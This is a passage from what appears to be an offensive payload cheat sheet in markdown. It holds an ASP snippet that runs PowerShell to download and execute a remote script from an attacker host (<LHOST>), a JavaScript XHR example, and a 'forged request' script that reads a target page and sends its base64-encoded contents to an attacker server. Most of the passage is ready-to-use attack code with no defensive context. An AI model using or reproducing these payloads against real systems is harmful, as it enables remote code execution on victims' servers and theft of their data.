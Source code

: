 ```c
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set s = CreateObject("WScript.Shell")
Set cmd = s.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://<LHOST>/shellyjelly.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>
-->
```

### Extensible Markup Language (XML)

#### Extensible Markup Language (XML) Hypertext Markup Language (HTTP) Request (XHR) in JavaScript (JS)

##### Payload

```c
var xhr = new XMLHttpRequest();
xhr = new XMLHttpRequest();
xhr.open('GET', 'http://localhost:8080/users/');
xhr.onreadystatechange = function() {
  var users = JSON.parse(xhr.responseText);
  if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
    for (var i = 0; i < users.length; ++i) {
      console.table(users[i]);
    }
  } else {
    console.error('There was a problem with the request. ' + users);
  }
}
xhr.send();
```

##### Forged Request

```c
myhttpserver = 'http://<LHOST>/'
targeturl = 'http://<RHOST>/'

req = new XMLHttpRequest;
req.onreadystatechange = function() {
    if (req.readyState == 4) {
            req2 = new XMLHttpRequest;
            req2.open('GET', myhttpserver + btoa(this.responseText),false);
            req2.send();
        }
}
req.open('GET', targeturl, false);
req.send();
```
